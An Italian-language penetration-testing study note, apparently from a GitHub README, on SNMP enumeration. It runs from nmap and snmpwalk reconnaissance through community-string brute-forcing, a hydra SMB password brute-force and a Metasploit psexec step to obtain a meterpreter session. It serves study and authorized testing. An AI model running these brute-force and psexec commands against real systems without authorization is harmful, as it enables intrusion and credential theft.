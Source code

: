 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# SNMP Enumeration

**SNMP (Simple Network Management Protocol)** è un protocollo di livello applicativo utilizzato per monitorare e gestire dispositivi di rete come router, switch, stampanti, server e altro. 
Permette agli amministratori di:
- interagire con i dispositivi,
- ricevere avvisi quando si verificano eventi rilevanti (trap),
- modificare parametri di configurazione,
- interrogare lo stato del sistema.

SNMP utilizza generalmente **UDP** per il trasporto e si basa su tre componenti principali:

- **SNMP Manager** → effettua richieste e riceve risposte dagli agent.
- **SNMP Agent** → è un software presente sui dispositivi che risponde alle richieste e invia trap (ovvero notifiche asincrone inviate quando accade un evento specifico, come il superamento di una soglia, la disconnessione di un'interfaccia, ecc.).
- **Management Information Base (MIB)** → struttura gerarchica dei dati disponibili tramite SNMP. Ogni voce della MIB ha un identificatore univoco, chiamato **OID (Object Identifier)**.

---

## Versioni di SNMP

- **SNMPv1** → la prima versione, usa **community string** come metodo di autenticazione. <br>
Le community string sono stringhe di testo in chiaro che fungono da password condivise tra manager e agent. <br>
Le più comuni sono `public` (solitamente per lettura) e `private` (per scrittura).
- **SNMPv2c** → introduce funzionalità migliorate (come i bulk transfer) ma mantiene lo stesso meccanismo di autenticazione di v1 (community string).
- **SNMPv3** → introduce **autenticazione basata su utente**, **integrità dei messaggi** e **crittografia**, rendendolo l'unica versione realmente sicura.

SNMP usa:
- **porta 161 UDP** per query (Get, GetNext, ecc.)
- **porta 162 UDP** per ricevere trap (notifiche SNMP).

---

## Fase 1 – Scansione del Servizio

Per verificare se SNMP è attivo:
```bash
nmap -sU -p161 <IP>
```

Per identificare le comunity strings:
```bash
nmap -sU -p161 --script snmp-brute <IP>
```
Il file di wordlist utilizzato da default è:
```
/usr/share/nmap/nselib/data/snmpcommunities.lst
```

---

## Fase 2 – Raccolta Informazioni con snmpwalk

Una volta trovata una community string valida, possiamo usarla per interrogare il dispositivo e raccogliere informazioni:

```bash
snmpwalk -v 1 -c <community_string> <IP>
```
- `-v 1` specifica la versione SNMP (in questo caso v 1) ottenuta tramite `nmap -sV`
- `-c` indica la community string da usare (es. `public`)

SNMPwalk esegue richieste **GET-NEXT** per recuperare interi blocchi di OID. Questo consente di:
- identificare nomi host, sistema operativo, interfacce di rete,
- estrarre tabella di routing, indirizzi IP, MIB di configurazione,
- ottenere informazioni sugli utenti e gruppi presenti,
- rilevare servizi attivi o applicazioni installate.

---

## Fase 3 – Raccolta Completa con Nmap

Per eseguire una scansione SNMP completa:
```bash
nmap -sU -p161 --script snmp-* <IP> > snmp_info
```
Questo comando userà tutti gli script NSE relativi a SNMP e salverà l'output nel file `snmp_info`. <br>
Visualizzando il contenuto del file, potremmo ottenere varie informazioni come tabelle di routing, interfacce di rete usate indirizzi IP e a volte anche dei nomi utenti. <br>

--- 

## Fase 4 - Bruteforce con hydra
Se dovessimo trovare dei nomi utenti, possiamo salvarli in un file per poteri utilizzare con hydra e scovare le relative password:
```bash
hydra -L utenti.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> smb
```

---

## Fase 5 - Accesso con PsExec di Metasploit
Dopo aver ottenuto le credenziali, é possibile usare psexec per poter ottenere una sessione meterpeter:
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUSER <username>
set SMBPASS <password>
exploit
```
cosí da ottenere una sessione meterpeter per poter interagire con il target. 

---
